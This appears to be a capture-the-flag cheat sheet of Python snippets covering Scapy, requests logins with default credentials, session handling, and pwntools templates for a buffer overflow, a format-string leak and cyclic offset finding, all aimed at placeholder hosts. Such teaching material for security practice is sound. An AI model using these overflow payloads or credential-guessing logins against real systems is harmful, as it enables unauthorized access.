# Secrets 
```python
import secrets

username, password = secrets.token_hex(8),secrets.token_hex(8)
print(username, password) # Random Passwords

```


# Scapy

Build, send, sniff, dissect, and spoof network packets.

```python
from scapy.all import *

# Send a ping (ICMP echo)
pkt = IP(dst="8.8.8.8")/ICMP()
reply = sr1(pkt, timeout=1)
reply.show()

```

# Requests

```python
import requests

url = "http://example.com/login"

data = {
    "username": "admin",
    "password": "123456"
}


response = requests.post(url, data=data)

if "Welcome" in response.text:
    print("Login successful!")
else:
    print("Login failed!")


```

##### Use Cookies, Headers and Sessions

```python
session = requests.Session()

# Custom headers (e.g. for bypassing filters)
headers = {
    "User-Agent": "Mozilla/5.0 (CTFScanner)"
}

# Login and store cookies in the session
session.post("http://example.com/login", data={"user": "admin", "pass": "admin"}, headers=headers)

# Now make a GET request while logged in
r = session.get("http://example.com/flag")

print(r.text)

```
# Pwntools


```python
from pwn import *

# Remote server example
conn = remote("ctf.example.com", 1337)

# Send payload (e.g., overflow)
payload = b"A" * 40 + p64(0xdeadbeef)  # buffer + return address
conn.sendline(payload)

# Keep the shell alive
conn.interactive()

```

#### Buffer Overflow on a Local Binary

```python
from pwn import *

# Load binary and context
elf = context.binary = ELF("./vuln_binary")

# Start the process locally
p = process(elf.path)

# Craft payload
offset = 72
ret_addr = 0xdeadbeef
payload = b"A" * offset + p64(ret_addr)

# Send payload
p.sendline(payload)
p.interactive()

```

### Format String leak

```python
from pwn import *

# Connect to service
p = remote("ctf.example.com", 9001)

# Leak stack value
p.sendline("%7$p")
leaked = p.recvline()
print(f"Leaked value: {leaked}")

```

##### Cyclic


```python 
from pwn import *

# Generate a unique pattern
print(cyclic(100))

# After crash, EIP/RIP shows value — find offset
print(cyclic_find(0x6161616c))  # Replace with crashed value

```